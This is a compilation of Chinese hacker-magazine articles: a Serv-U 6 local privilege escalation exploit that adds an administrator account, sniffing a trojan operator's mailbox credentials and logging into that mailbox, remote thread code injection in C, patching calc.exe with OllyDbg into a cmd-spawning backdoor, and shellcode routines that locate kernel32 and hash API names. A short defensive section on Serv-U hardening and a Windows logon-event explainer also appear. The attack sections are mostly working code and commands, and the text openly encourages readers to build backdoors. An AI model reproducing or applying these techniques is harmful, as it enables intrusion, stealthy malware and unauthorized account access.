测试过程：第一步，以普通用户身份登录 Windows，在运行中输入 cmd，执行 Serv-U6 本地提权工具，例如：`serv-u6.exe 43958 "net user test test /add"` 添加用户 test。


第二步，输入 `serv-u6.exe 43958 "net localgroup administrators test /add"` 将该账户提升为超级用户权限，成功后软件界面返回提示信息。

```text
220 Serv-U FTP Server v6.0 for WinSock ready...
USER LocalAdministrator
331 User name okay, need password.
PASS ...
230 User logged in, proceed.
```

这时可使用用户名 test、密码 test 登录，并发现自己已成为超级用户。漏洞解决方案：尽快升级到最新版本。

Serv-U 安全隐患重重，如何防范入侵？以 Windows 2003 SP1 + NTFS 分区为例，在保证系统补丁最新前提下进行安全部署：安装 Serv-U 于非系统分区，避免默认目录赋予 Everyone 权限，安装过程中注意匿名登录配置。


## 3、溢出防范

近期尚未发现软件所造成的缓冲区溢出漏洞，但建议用户关注安全新闻并及时打补丁，最好升级版本，以减少损失。

## 4、端口密码设置

在 Serv-U 6.0.0.2 版本中可在 ServUDaemon.ini 中加入 `LocalSetupPortNo=12345` 修改本地管理端口，并配合 IPsec 限制访问该端口。

已经提供对本地密码进行修改的功能，在其主界面右边，我们可以更改设置本地服务器密码。这样一来，就需要输入密码才能进行本地管理，默认的是 `#1@$ak#·Ik;J@P`，也就是说为空，不需要密码就可以管理。我们设置和更改密码的时候，旧密码留空，然后设置好你的本地管理密码。设置完成后会在 ServUDaemon.ini 中添加 `LocSetPassword=...` 之类的一段字符（见图3）。


## 5、传输安全

由于 Serv-U 在未开启 SSL 时，FTP 传输是以明文方式传输数据，在位于路由或交换环境下，这很容易被嗅探工具捕获，如 Sniffer Pro、NetXray、Arpsniffer、Dsniffer 都可以抓到。利用此方式攻击，很多安全站点被渗透也不是什么新鲜的话题了。所以下面我们来看看如何启用 Serv-U 的 SSL 功能。

第一步：我们为 Serv-U 创建新的 SSL 服务器证书；启动 Serv-U 管理员，Serv-U 默认提供了一个证书，但所有默认安装的 SSL 证书私钥均一样。为安全起见，我们需重新建立一个。很简单，打开 Serv-U“本地服务器”的“设置”选项，在管理界面右边，打开“SSL 证书”，依次填入“普通名称（FTP 服务器的 IP 地址）”、“电子邮件”等相关信息（见图4），点击“应用”按钮将在 Serv-U 目录下覆盖掉原 Serv-U 提供的证书 ServUCert.crt。


第二步：初次使用应该对证书进行认证，把它安装到受信任的区域。点击“安装证书”，进入下一步“证书导入向导”，选择默认存储区域，点击“下一步”或者自行选择存储区域，完成后会弹出“安全性警告（因为没有从证书颁发机构安装）”，这里不管它，点击“是”进行证书安装。成功后会弹出“证书导入成功”对话框，确定后，我们再次打开 ServUCert.crt，OK，证书已经信任了。这方便了 FTP 客户端进行登录的时候不会弹出“是否信任”烦人的提示框。下一步我们来设置 Serv-U 以提供 SSL 支持（见图5、图6）。


第三步：打开 Serv-U 服务器下面的域，比如 www.xhacker.cn，在右边出现的“安全性”下拉框中，有三个选项，默认的是“仅允许普通 FTP，无 SSL/TLS 会话”。既然我们要对 FTP 服务器进行 SSL 支持，我们就选择下面的“只允许 SSL/TLS 会话”（见图7），也可以根据需要选择“同时允许普通 FTP、SSL/TLS 会话”。应用后，Serv-U 服务器就已经具备了 SSL 加密传输功能。


当然，既然服务器只允许采用 SSL 会话，那么我们也无其他选择了。为安全考虑，只有对 FTP 客户端也启用 SSL 连接。以 FlashFXP 为例，FlashFXP 是一款支持 SSL 连接的 FTP 客户端工具。首先在 FlashFXP 的快速连接窗口中，选择“SSL”，然后在“安全套接字”下面选择“认证 SSL”（见图8），这样我们就可以使用 SSL 连接了。连接成功后，我们将在 FlashFXP 的状态栏下看到一把小锁的标志，说明已经进行成功 SSL 安全连接。现在大家可以用嗅探工具对 FTP 端口进行嗅探，在未使用 SSL 传输连接的时候，可以嗅探到明文密码；通过使用 SSL 加密传输连接，避免了明文传输被嗅探这一步。


现在 Serv-U FTP 服务器在国内应用相当广泛，小到个人，大到集团，只要 BUG 一发现，针对漏洞的攻击代码一流传起来，将给诸多企业及个人用户带来巨大的灾难。对此，我们惟有确保安全部署好系统的情况下，对安全界投以关注的目光，时刻关注最新漏洞，做好防范措施，发现漏洞及时给系统打上补丁，才能够保证 Serv-U 不被入侵。（本文所涉及的 Serv-U6.exe 在光盘中有收录）

> 正所谓树大招风，Serv-U FTP 服务器用的人多了，研究它漏洞的人也就多了，版本从 3.x 到现在的 6.x 无一不暴露漏洞。要用的朋友最好注意对照本文“安全对策”设置 Serv-U，安全、有效！

# 挑战网控 QQ 大盗

无心插柳

有个朋友和我说他的 QQ 被盗了，虽然通过手机绑定把 QQ 要了回来，但里边的 1000 币却早已不见踪影。气急败坏的朋友委托我一定要把盗他 QQ 的人给抓出来，就算不能怎么地也要狠狠地和对方对骂一番，以泄心头之恨。这个朋友向来都是在自己电脑上 QQ，公共场合是不大上的，而且电脑上还装了卡巴斯基反病毒软件，还是自动更新。于是到他的机子上一看，还未有大发现时，一打开“任务管理器”就看到一个可疑进程“NTdhcp.cxo”，如图1所示。


图1 任务管理器发现可疑进程

因为不久前用过啊拉 QQ 大盗，所以我想这个木马多半就是它了，能逃过杀毒软件看来是最新版本。看了一下网站上啊拉 QQ 大盗的下载说明，说很多人都会用 WinHex 从啊拉 QQ 大盗的服务端找到种马者的邮箱账号和密码。毕竟对于这种盗号木马，我们所能从中得到的便是种马者的配置信息，如邮箱密码。这样一来种马者“偷鸡不成反蚀把米”。不过，向来是“道高一尺，魔高一丈”，这下啊拉 QQ 大盗的作者就在新版程序中对 WinHex 进行了屏蔽，防止用户的配置资料外泄。不能从服务端里读取信息，我们该怎么样才能找到种马者呢？

正所谓“通往罗马的道路不止一条”，既然从木马服务端程序不好办，我们能不能从其他途径下手呢？虽然啊拉 QQ 大盗有“网站收信”功能，但很多人都没有自己的 ASP 空间（免费的 ASP 空间好用的不太多），想必很多种马的人还是用“邮箱收信”的功能。服务端程序发送邮件自然就是用 SMTP 协议传输，而且传输的用户和密码都是明文的哦。知道了这点，你一定想到这样一来只要嗅探一下种木马的机子，不就能找到种马者的邮箱账号和密码了吗？

思路就是这样，只要在中途拦截下有用的信息，得到种马者的邮箱账号和密码就完成了。我准备用安全焦点的 X-Sniffer，为了方便还给不喜欢输一长串命令的读者找了一个 X-Sniffer 的图形界面程序 XsnifferGUI。

我们先来看看用 X-Sniffer（本文所提供的程序名为 xsniff）如何在 CMD（命令提示符）下嗅探密码。在 CMD 下切换到 xsniff.exe 所在目录，输入 xsniff 回车，可以看到帮助信息如图2所示。


图2 xsniff 的帮助信息

通过提示，我们可以看到只要在 CMD 下输入 `xsniff.exe -tcp -pass -hide log pass.log`，就可以嗅探到使用 TCP 协议进行传输的密码等信息，不仅可以嗅探到邮箱账号和密码，其他诸如论坛和登录网页只要是未经加密的明文数据都能嗅探到。

如果你觉得在 CMD 下输命令麻烦，就用我在网上找到的 X-Sniffer 的图形界面程序来试吧。这个程序只是编写了一个图形界面，实际就是调用上面的命令，核心程序仍然是安全焦点的 X-Sniffer。只要 xsniff.exe 与 XsnifferGUI.exe 在同一个目录下，点击 XsnifferGUI 中的“开始监听”就可以了，如图3所示。如果嗅探到信息，就会在同目录下生成一个 pass.log 文件。


图3 XsnifferGUI“开始监听”

我们就用朋友这台种了木马的机子开始监听，然后按正常步骤登录 QQ 看看。不一会就看到了 XsnifferGUI 的同一目录下多了一个 pass.log 文件，用记事本打开看到如下信息：

```text
TCP [08/11/05 14:34:38]
192.168.1.102->220.181.12.15 Port: 1068->25
USER: d2VuemhpMTk4Mw== [lzf5483]

TCP [08/11/05 14:34:38]
192.168.1.102->220.181.12.15 Port: 1068->25
PASS: NTR0wNrZXI= [54hacker]

TCP [08/11/05 14:34:38]
192.168.1.102->220.181.12.15 Port: 1068->25
MAIL FROM: <lzf5483@163.com>

TCP [08/11/05 14:34:38]
192.168.1.102->220.181.12.15 Port: 1068->25
RCPT TO: <lzf5483@163.com>
```

呵呵，看到了吧，“USER:” 后边 `[]` 里便是用户名；“PASS:” 后边的当然就是密码了。从“MAIL FROM: <lzf5483@163.com>”大家也清楚这个邮箱用户是 163 的吧，而且从“RCPT TO: <lzf5483@163.com>”可以看出发信和收信用的是同一个邮箱。下边当然就是用这个账号和密码登录上去，嘿嘿，如图4所示，看来种马者逮到的 QQ 还真不少啊，从中还发现了几封啊拉 QQ 大盗的测试信件。

| 邮件状态 | 发件人 | 主题 |
|---|---|---|
| 已读/未读 | 我 | ... |
| 已读/未读 | 我 | ... |
| 已读/未读 | 我 | ... |
| 已读/未读 | 我 | ... |

图4 登录种马者的邮箱

幸好这个种马者发信和收信使用的是同一个邮箱，现在我们可以改掉他的邮箱密码让他以前种的木马都失效。清除木马后（清除的方法很简单，只要下一个“啊拉 QQ 大盗”，使用它的“卸载程序”就行了；如果还没有清除完全就彻底重装系统试试），在朋友的强烈要求下先不改邮箱的密码，而是用这个邮箱自己给自己发一封伪造得和盗密邮件一样的木马邮件，现在就等着鱼儿上钩了。

> （本文所涉及的 xsniff.exe、XsnifferGUI.exe 在光盘中均有收录）

这个世界上果真是“通往罗马的道路不止一条”，本文给我们展示了另一种获得木马服务端配置信息的方法。不过相信许多读者和小编一样都想知道作者后边“钓鱼”的过程，一起期待吧。

开学啦，很多上学的读者就要开始正式地学习编程课程了吧！“师傅领进门，修行在个人”，希望大家努力打好基础，以后的成就就要靠自己奋斗啦。本期快码加鞭给大家送上两篇文章助大家一臂之力，《打造目标求职聘工具及另类玩转 BAT2EXE》灵光闪现给我们带来新的方法，《代码注入一点通》让我们再次重温黑客必修课“远程线程注入”。

# 代码注入一点通

by scuhkr / 古开元

记得初学黑软编程的时候，一位师兄大谈特谈木马编程中的远程线程注入技术，当时听得是云里雾里，对那位师兄的敬仰之情真是如滔滔江水，连绵不绝。相信很多热衷于黑客编程技术的初学者现在的心情和我当时一样，那么到底什么是远程线程注入呢？而它又是不是像传说中的那么神秘呢？

相信大家都会认同这样一个观点，即：衡量一个木马程序的好坏，很大程度上看该木马程序的防杀功能是否强悍。而对于网络上现在大多数主流木马程序，都几乎无一例外地使用了远程线程注入技术，这也是很多学习黑客编程的朋友把“远程线程注入技术”当成必修课的原因。然而，在 32 位的 MS Windows 操作系统中，每个进程都独占 4G 的私有地址空间，这样一来，一个应用程序无法破坏另一个进程或操作系统的运行。

MS 这样的设计使得 Windows 操作系统变得异常强壮。当然，什么事都不是绝对的，想想我们用的 VC 和其他调试器大部分都有 Attach 到进程的功能，在调试其他进程的同时本身就需要访问其他进程，那么又是怎么做的呢？答案就是微软引入了一个叫做 CreateRemoteThread() 的函数，该函数能实现在其他进程中创建新的线程，而远程线程代码注入的关键就在它了。下面我们来分析一下吧。

```c
HANDLE CreateRemoteThread(
  HANDLE hProcess,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  SIZE_T dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID lpParameter,
  DWORD dwCreationFlags,
  LPDWORD lpThreadId
);
```

```c
MessageBox(NULL, "inject", "hi", MB_OK);
```

```c
typedef struct {
  DWORD size;
  char user32Dll[32];
  char messageBoxFuncName[32];
  DWORD loadLibraryImport;
  DWORD getProcAddressImport;
} THREAD_FUNCTION_CTX;
```

我们先来定义一个线程上下文结构体吧！该结构中，size 是该结构的大小，为后面计算参数位置而用的；user32Dll[32] 数组用于存放包含 MessageBoxA() 的 DLL 库 user32.dll；messageBoxFuncName[32] 则存放 MessageBoxA() 函数名；LoadLibraryImport 和 GetProcAddressImport 则用来存放函数 LoadLibraryA() 和 GetProcAddress() 的地址。

```c
THREAD_FUNCTION_CTX ctx;
memset(&ctx, 0, sizeof(ctx));
// 加载 Kernel32.dll 并取得 LoadLibraryA() 和 GetProcAddress() 函数地址
HMODULE dll = LoadLibraryA("Kernel32.dll");
ctx.loadLibraryImport = (DWORD)GetProcAddress(dll, "LoadLibraryA");
ctx.getProcAddressImport = (DWORD)GetProcAddress(dll, "GetProcAddress");
strcpy(ctx.user32Dll, "user32.dll");
strcpy(ctx.messageBoxFuncName, "MessageBoxA");
```

```c
static DWORD WINAPI ThreadFunctionStart(THREAD_FUNCTION_CTX *ctxaddr)
{
  // ...
  HMODULE dll;
  char caption[4];
  char text[32];
  // ...
}
```

```c
caption[0] = 'h';
caption[1] = 'i';
caption[2] = 0;

text[0] = 'i';
text[1] = 'n';
text[2] = 'j';
text[3] = 'e';
text[4] = 'c';
text[5] = 't';
text[6] = 0;
```

```c
asm {
  mov ecx, ctxaddr
  add ecx, 04h
  push ecx
  call [loadLibraryImport]
  mov dword ptr [dll], eax
  mov ecx, ctxaddr
  add ecx, 24h
  push ecx
  push dll
  call [getProcAddressImport]
  mov dword ptr [messageBoxAddr], eax
  push MB_OK
  lea ecx, [caption]
  push ecx
  lea ecx, [text]
  push ecx
  push 0h
  call [messageBoxAddr]
}
return;
```注意上面的压栈顺序遵从 C 函数风格调用，即函数参数从右往左压。比如 Func(arg1, arg2, arg3, arg4) 的压栈顺序是：

- Push arg4
- Push arg3
- Push arg2
- Push arg1
- Call Func

寄存器 eax 保存的是函数返回值。我们还定义了另一个好像没什么作用的函数：

```c
#pragma warning(disable : 4716)
static DWORD WINAPI ThreadFunctionEnd(THREAD_FUNCTION_CTX *ctx)
{
}
```

这个函数的目的是为了计算 ThreadFunctionStart() 的长度，前面的 #pragma 预处理是为了去掉烦人的 4716 错误警告。

```c
unsigned char InjectThreadToProcess(
    DWORD pid,
    DWORD (WINAPI *threadFunctionStart)(void *),
    DWORD (WINAPI *threadFunctionEnd)(void *),
    void *context,
    unsigned long contextSize)
{
    unsigned char foundPid = 0;
    HANDLE process, threadHnd;
    unsigned char *virtualFunctionBuffer;
    DWORD id, size, numBytes;

    if (!(process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid)))
        return 0;

    size = (LPBYTE)threadFunctionEnd - (LPBYTE)threadFunctionStart;

    virtualFunctionBuffer = (unsigned char *)VirtualAllocEx(
        process,
        NULL,
        size + contextSize,
        MEM_COMMIT | MEM_TOP_DOWN,
        PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(process, virtualFunctionBuffer,
        (LPVOID)threadFunctionStart, size, &numBytes);
    WriteProcessMemory(process, virtualFunctionBuffer + size,
        (LPVOID)context, contextSize, &numBytes);

    threadHnd = CreateRemoteThread(process, NULL, 0,
        (LPTHREAD_START_ROUTINE)virtualFunctionBuffer,
        virtualFunctionBuffer + size, 0, &id);

    CloseHandle(process);
    if (threadHnd)
    {
        CloseHandle(threadHnd);
        return 1;
    }
    else
        return 0;
}
```

编译运行看看结果如何。Ctrl + Alt + Del 调出 Windows 任务管理器，找到 PID 为 3124，如图 1 所示。运行“inject.exe 3124”，“嗖”的一下对话框跳了出来。大家仔细看图 2 下面黑色框里的图标，一个是金山词霸本身，另一个是我们注入的对话框，而该对话框的图标和金山词霸是一样的，说明了它们同属一个进程。

## 小结

本程序实现了很简单的代码注入，麻雀虽小，五脏俱全哦。我相信只要你理解了这里的思路和方法，基本上远程线程注入技术你就掌握了。是不是并没想象中的那么神秘啊，而且一些黑客编程必修的学费都省了！


图1 任务管理器

图2 注入金山词霸

嘿嘿，大功告成。计算器弹出来了，CMD 对话框也弹出来了，没有任何错误。大家想想，很多溢出所用到的正向连接、反向连接、端口绑定等等的 ShellCode，稍加改进一下，是不是可以……这个大家自己去想了。到时候做出了好的后门，记得也发一份给我哦。

## 后记

本文介绍了如何使用 OllyDbg 来改变程序执行流，以达到执行自己想要运行的程序或代码。方法大家都看到了，很简单：就是修改程序入口地址，让程序运行跳转到自己的代码处运行，然后恢复堆栈，再跳回到原宿主程序的执行流。如果对补丁技术有了解的话，肯定发现这其实就是一种文件补丁技术，修改文件本身的某些数据而达到某种修补的效果，只不过现在被我们利用来做些其他“有趣”的事了……

# 利用 OllyDbg 修改程序执行流

Suchkr / 古升元

利用一些汇编调试工具来修改程序特征码，从而避开杀毒软件或作为后门应用，已经不是很新鲜的事了。不过很多初学者对此却还是很迷茫，他们往往看着网上的长篇大论和汇编代码而不知所措，一头雾水。今天我就花点时间，班门弄斧，借 OllyDbg 这款强大的反汇编工具来尝试修改 Windows 自带的计算器程序的执行流来做个模拟后门，希望能抛砖引玉，对大家有所帮助。

出于教学目的，我们这里要开的后门就是开一个家喻户晓的 DOS 窗口。呵呵，因为在目标主机上开 DOS 窗口的地位，在学习溢出或学习后门木马技术中就好比是 Hello World 在学习任何编程语言的地位一样，虽简单却很有启发意义。

经典开 DOS 窗口的 Win32 程序如下：

```c
#include <windows.h>
void main()
{
    WinExec("cmd", SW_SHOW);
}
```


这里 WinExec() 的参数用 SW_SHOW，因为我们希望能看到效果；但如果是后门或木马的话，就应该使用 SW_HIDE 参数了。换成对应的内联汇编，程序应该就是如下所示了：

```c
void main()
{
    __asm {
        push ebp
        mov ebp, esp
        push ecx
        mov DWORD PTR [ebp-4], 0x00646D63 ; "cmd"
        push 5                        ; SW_SHOW
        lea eax, [ebp-4]
        push eax                      ; "cmd"
        mov eax, 0x77e4fd35           ; WinExec 地址(示例)
        call eax
        mov esp, ebp
        pop ebp
    }
}
```


注：作者实验的操作系统为 WinXP+SP1，如果你的操作系统版本不同或补丁不同，WinExec() 的地址也许会不同，具体查找 WinExec() 地址的方法请参阅《黑客手册》暑期特别版我所发表的另一篇文章《谈Q版缓冲区溢出有感之 Win32 ShellCode 初体验》。

OK，编译运行，正确弹出了我们想要的 DOS 窗口。如图1所示。下面，我们再来看如何用 OllyDbg 改变计算器程序的程序入口指令，并加入上面开 DOS 窗口的汇编码段，而安全返回执行计算器程序的。

首先，从 \system32\ 下拷贝一个 calc.exe（计算器）出来，放到一个测试目录下，打开 OllyDbg，加载这个 calc.exe，如图2所示：看到，OllyDbg 会自动定位到 calc.exe 的程序执行入口点 0x01012475 处，汇编代码如下：

```asm
01012475  6A 70            Push 70
01012477  68 E0150001      Push calc.010015E0
0101247C  E8 47030000      Call calc.010127C8
```

解释一下：第一列是执行指令在内存中的地址，第二列是执行指令的机器码，第三列则是对应的汇编代码。注意 push calc.010015E0，“calc.”是 OllyDbg 自己加上去的，标志着是应用程序中的地址，比如说，calc.00100000 就是计算器程序的 0x00100000 地址处，notepad.12345678 就是程序记事本的地址 0x12345678 处。

下面我们把滚动轴一直往下拉，直到我们看到 N 多的 DB 00 处，如图3所示：


## 5、修正主程序

大家都知道，Windows 下的 PE 文件的代码、数据等是分开的，分别存放在 PE 文件的各个区块或节（section），而一般这些区块都是以内存页面大小对齐的，当所要存放的代码或数据等东西填不满这些区块时，就会留下图 3 那样的以 00（DB 00）填充的区域，好像也被认为是 DeadArea（死区）。

我们选中较前面的位置一行（以防止小碎空间存放自己的代码），敲空格键（Space），就可输入自己的汇编代码了。这里我习惯性地先输入了 4 个 NOP，NOP 指令表示什么都不做，但是 EIP=EIP+1，也就是往下继续执行的意思。务必记住我输入的第一行的指令地址，因为我们要让程序跳到这里来执行，我这里是 0x010136B8，如图 4 所示；


然后一行一行把上面的开 DOS 窗口的汇编程序段输入。

为了让程序一开始就跳到我们的程序来，我们点右键→前往→起源（或按 Shift+8），回到程序入口点，即 0x01012475 处，敲空格键，输入 JMP 010136B8（注，OllyDbg 默认情况下地址都是以 16 进制表示的，所以可以不用输入 JMP 0x010136B8。当然，加上 0x 在前面也是对的），发现下面自然地多加了两个 NOP 指令，如图 5 所示：


OllyDbg 会自动跟踪跳转指令的目的地址，所以如果你选中 JMP 0x010136B8，会发现机器码的左边有一条红线一直往下连，如你按回车或“右键→跟随”，嘿嘿，是不是看到已经到了跳转地址 0x010136B8 处了，而这就是我们自己开 DOS 窗口的代码。点击“右键→复制到可执行文件→全部修改”，如图 6 所示：

然后选择全部复制，如图 7 所示；如果出错，会出现如图 8 所示对话框。这样的话，肯定是前面有地方没有写对，要检查一下哟……如果没错，即可点“右键→保存”，如图 9 所示：


在文件名处输入 calc2.exe。好了，在磁盘中找到这个 calc2.exe，执行看看，得到如图10的结果。


图10

哈哈，我们期待的 CMD 对话框弹出来了。不过，还发生了一个异常错误，感觉真不爽！因为我们只是改变了程序的流程，破坏了进程堆栈，却没有进行恢复，当然要报错了。而且，如果这样做一个后门，只要运行它，宿主程序就会报错，那也太失败了。我们完善一下，不但要把堆栈恢复过来，还要让作为宿主的计算器程序正常工作。

记得我们刚进入程序入口点的汇编代码段为：

```asm
01012475  Push 70
01012477  Push "calc.010015E0"
0101247C  Call calc.010127C8
```

而后来经我们修改后，变成了：

```asm
01012475  JMP 0x010136B8
0101247A  NOP
0101247B  NOP
0101247C  Call calc.010127C8
```

嗯，注意到地址为 0101247C 没有被改变，那么我们就把前面的：

```asm
Push 70
Push calc.010015E0
```

放在我们添加的代码后，由我们自己来恢复堆栈。添加代码如图11所示：


图11

注意框中的部分，就是跟在我们原来代码后的东西。

```asm
Push 70
Mov Eax, calc.010015E0
Push Eax
Mov Eax, calc.0101247C
Jmp Eax
```

这样就 OK 了，最后的 Jmp Eax 就跳回到原来 calc.exe 计算器的执行流了。我们像刚才那样把它保存为 calc3.exe，嘿嘿，执行看看，得到的效果如图12所示：


图12

# 夜航船

上期描述了微软的事件 ID 为 528 和 538 的一些基本内容，本期将针对这两个事件的深层挖掘作进一步技术性专题讲解，以便大家能对这两个事件有更深的了解！

前序：上一期，笔者为各位读者简单描述了 528 和 538 的两个事件，这一期的文章则是继续对上期的文章内容，如有不明之处，请读者参考上一期的《夜航船》。

> In many cases, the user listed for this event will be 'ANONYMOUS LOGON' from 'NT AUTHORITY' domain. This logon is used by processes that use the null session logons (logons that do not require a user/password combination). Any program or service that is using the system user account is in fact logging in with null credentials.
>
> If the operating system encounters a user without any credentials, the user is regarded as having NULL credentials. When the system attempts to access a secured network resource based on NULL credentials, this is referred to as a NULL session. Access is only allowed if the remote machine allows NULL session access. This is configurable through the registry.

在很多情况下，产生这一事件的用户是通过 NT 认证机制的“ANONYMOUS LOGON”进行登录的，这个登录（ANONYMOUS LOGON）是通过空会话（NULL SESSION）登录实现的（登录过程中不需要用户名和密码）。使用了空会话登录的任何程序或服务，都会使用一个系统账号进行登录。

而这一登录过程实际上是一个不受信的过程。如果操作系统遇到一个没有任何授权（一个不受信任）的用户（登录）时，这个用户会被认为是一个空会话（原文中的 NULL credentials 指无效的授权）；当系统使用一个无效的授权（空会话）试图去访问一个受保护的网络资源时，这就被称为空会话。从理论上来讲，就是不需要用户名和密码的登录。（使用空会话的用户、应用或是服务）只能访问那些允许空会话（用户登录）的主机，这类“主机”允许空会话是可以通过注册表来进行配置的。

> One typical example is a computer that registers itself with the Master Browser for that network segment at startup. This registration will generate several logon/logoffs from 'ANONYMOUS USER'. Since the registration is renewed by default every 12 minutes, such events will occur at regular intervals.

一个（利用空会话）的典型例子就是，当某台主机启动时，被注册成为网络专用的 MASTER BROWSER（这一注册过程用到了“ANONYMOUS USER”用户进行登录动作），正是这动作产生了 528 和 538 事件信息。成为 MASTER BROWSER 开始，注册信息将会按照默认的每隔 12 分钟刷新一次，因此，由这一动作所产生的事件（即：528 和 538 事件）将会不时地（在系统日志中）生成。

后序：关于 528 和 538 的事件技术细节有相当多的信息，在此笔者只是讲述了空会话的一小部分及实例，关于具体的信息，有兴趣的读者可以在微软的 support 站点进行搜索（搜索 528 和 538 关键字即可）。

# 读《Q版黑客——缓冲区溢出教程》学习笔记之二

# Win32 ShellCode 基础提高篇

scuhkr/古开元

在《黑客手册》暑期特别版里，我和大家一起学习了《Q版黑客——缓冲区溢出教程》（以下简称《Q版》）最基本的开 CMD Shell 的 ShellCode 编写技术。一个多月过去了，相信大家通过对《Q版》一书的学习已经见成效了吧。今天，在《Q版》的基础上，让我们一起继续学习 Win32 ShellCode 的基础知识，并在这个基础上有所提高。

## 一、Kernel32.dll 基地址的动态定位

在写远程溢出的 Win32 ShellCode 过程中，为什么要动态定位 Kernel32.dll 的基地址呢？答案正如 ww0830 所说的一条公式：通用的 ShellCode + 通用的跳转地址 = 通用的 Exploit。难道你希望针对每个版本的操作系统和同一版本的不同补丁系统都备份一个 ShellCode 吗？而且你又怎么能确定你要溢出的目标主机的操作系统和补丁版本呢？

主要用于定位 Kernel32.dll 基地址的技术，《Q版》一书中介绍了 PEB 法、yuange 的暴力搜索法和 SEH 搜索法。由于暴力搜索法的低效性和低通用性，我们这里摒弃这种方法，而是介绍另外的 TOPSTACK 技术，并对这三种方法做了可靠性和字节大小的比较。

### 方法一：PEB 技术

这种确定 Kernel32.dll 基地址的技术利用了 PEB，即 Process Environment Block（进程环境块）。操作系统为每个运行的进程分配了一个结构，通过这个结构总是可以在该进程的 fs:[0x30] 处找到。PEB 结构存放着进程信息、二进制映像信息，以及较重要的、映射到进程空间的模块链表信息，而这些链表展示了所有被装载模块是以什么样的顺序被初始化的。

我们不关心其他的模块，我们关心的是 Kernel32.dll 总是第二个被初始化的模块（第一是 Ntdll.dll），这正好可以被我们利用。通过链表的第二个入口，我们就可以准确地找到 Kernel32.dll 的基地址了。流程如下：

- 1. FS 寄存器 -> TEB 结构  
- 2. TEB + 0x30 -> PEB 结构  
- 3. PEB + 0x0c -> PEB_LDR_DATA  
- 4. PEB_LDR_DATA + 0x1c -> Ntdll.dll  
- 5. Ntdll.dll + 0x08 -> Kernel32.dll

思路很清晰了，于是我们就可以写出下面实现查找 Kernel32.dll 基地址的汇编代码：

```asm
find_kernel32:
push esi
xor eax, eax
mov eax, fs:[eax+0x30]    ; TEB + 0x30 -> PEB
mov eax, [eax+0x0c]       ; PEB + 0x0c -> PEB_LDR_DATA
mov esi, [eax+0x1c]       ; PEB_LDR_DATA + 0x1c -> Ntdll.dll
lodsd                     ; Ntdll.dll
mov eax, [eax+0x8]        ; Ntdll.dll + 0x08 -> Kernel32.dll
find_kernel32_end:
pop esi
ret
```

该方法适用于 Win95/Win98/WinMe/Win2K/WinXP/Win2K3，大小约为 34 个字节。

### 方法二：SEH 技术

想必读者们对 SEH（Structured Exception Handling，结构化异常处理）不陌生吧，而 SEH 技术获得 Kernel32.dll 地址就是利用了 UnhandledExceptionHandler 默认使用了在 Kernel32.dll 里的一个函数 UnhandledExceptionFilter。基于 Win9X 和 WinNT 在 SEH 最顶端的入口地址总是在 FS:[0] 有效，所以有如下算法：

- 1) 获得异常处理函数链表首指针  
- 2) 遍历到最后一个节点（该节点有一个指向 KERNEL32.DLL 导出函数 UnhandledExceptionFilter 的函数指针）  
- 3) 获得 UnhandledExceptionFilter 函数地址，这个地址非常靠近可执行文件特征，查找 KERNEL32.DLL 基址

具体实现的汇编代码及注释如下：

```asm
find_kernel32:
push esi
push ecx
xor ecx, ecx
mov esi, fs:[ecx]              ; 获得异常处理函数链表首指针
not ecx                        ; ecx=0xffffffff
find_kernel32_seh_loop:
lodsd
mov esi, eax
cmp [eax], ecx                 ; 比较是否是异常链的最后一个节点
jne find_kernel32_seh_loop     ; 否则继续比较
find_kernel32_seh_loop_done:
mov eax, [eax + 0x04]          ; 获得UnhandledExceptionFilter函数地址
find_kernel32_base:
find_kernel32_base_loop:
dec eax
xor ax, ax
cmp word ptr [eax], 0x5a4d     ; 根据PE文件头的MZ标志判断是否找到Kernel32.dll
jne find_kernel32_base_loop
find_kernel32_base_finished:
pop ecx
pop esi
ret
```

该技术适用于 Win9X/WinNT/Win2K/WinXP/Win2003，大约为 33 个字节。

### 方法三：TopStack 技术

该技术相对来说是一种新技术，也被认为是 TEB 技术，只适用于 WinNT 系统。它通过一个存储在 TEB（Thread Environment Block，即线程环境块）的指针来定位堆栈的顶部。因为每一个执行线程有它自己相应的 TEB 信息与本线程对应，而当前线程的 TEB 可以通过引用进程地址处的 FS:[0x18] 来访问，获得指向堆栈的指针。从堆栈顶部的 0x1c 处，可以获得一个指向 Kernel32.dll 某处的指针。最后，与 SEH 一样，遍历 64KB 边界，直到一个 `MZ` 标志被找到。

具体实现的汇编代码及注释如下：

```asm
find_kernel32:
push esi
xor esi, esi
mov esi, fs:[esi + 0x18]        ; TEB -> esi
lodsd
lodsd                           ; 堆栈顶 -> eax
mov eax, [eax - 0x1c]           ; 获得一个在Kernel32.dll里的地址 -> eax
find_kernel32_base:
find_kernel32_base_loop:
dec eax
xor ax, ax
cmp word ptr [eax], 0x5a4d      ; 比较是否为 'MZ'
jne find_kernel32_base_loop
find_kernel32_base_finished:
pop esi
ret
```

该技术只适用于 WinNT 系统，但大小最小，仅约 25 个字节。

- 1. PEB 技术最为通用而且可靠，但所需字节数最多，是目前最为常用的技术；  
- 2. SEH 技术存在着应用程序完全移除了系统默认的 UnhandledExceptionHandler 处理函数而安装自己的异常处理函数，这个时候 SEH 技术就不再有效；另外，单靠查找 `MZ` 标志而断言找到了 Kernel32.dll 显得有些武断，可以加上 `PE` 标志的查找；  
- 3. TOPSTACK 技术最为短小，可靠性也高，美中不足的是，不适用于 Win9X 系统。

至于如何选择，这根据个人需要和实际情况来定了。我这里提供了一个自己写的 Kernel32.dll 基地址查找小工具（光盘中有收录），该工具还提供了每种方法的汇编源代码，如图2所示。

## 二、Hash 法实现对 API 函数地址的查找

> “字符[0]循环右移13位 + 字符[1]循环右移13位 + … + 最后一个字符”

在《Q版》一书中，ww0830 只是简单地提了一下 HASH 法的公式，即上述表达，讲得有点不明不白，也没有给出对应的汇编实现代码。后来理解了很久，才恍然大悟，其实很简单。用 C 语言表达就是：

```c
DWORD GetHash(unsigned char *c)
{
    DWORD h = 0;
    while (*c)
    {
        h = ((h >> 13) | (h << 19)) + *c++;
    }
    return h;
}
```

注意，因为是循环右移，所以必须是 `(h >> 13) | (h << 19)`，13 + 19 = 32，刚好是 32 位。有了上面的 C 程序，换成汇编的 ShellCode 就简单了，代码段如下：

```asm
compute_hash:
    xor eax, eax                ; eax清零
    cdq                         ; edx清零
    cld                         ; 清除方向标志位
compute_hash_again:
    lodsb                       ; 从esi装载下一个字节到al
    test al, al                 ; al 为零？
